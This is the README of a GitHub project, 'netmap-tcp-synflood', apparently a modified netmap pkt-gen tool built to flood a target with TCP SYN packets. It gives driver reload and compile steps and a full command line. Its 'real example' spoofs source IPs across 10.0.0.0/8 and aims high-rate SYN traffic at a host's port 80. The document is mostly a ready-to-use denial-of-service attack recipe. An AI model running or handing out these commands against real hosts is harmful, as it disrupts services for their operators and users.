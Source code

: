 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:
	cd netmap-tcp-synflood
	make

After compiled, just run: 

	/examples/pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:dst_port_range -d <target>:<target_port>
  
Real example :-)

	/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:1124 -d 192.168.10.80:80

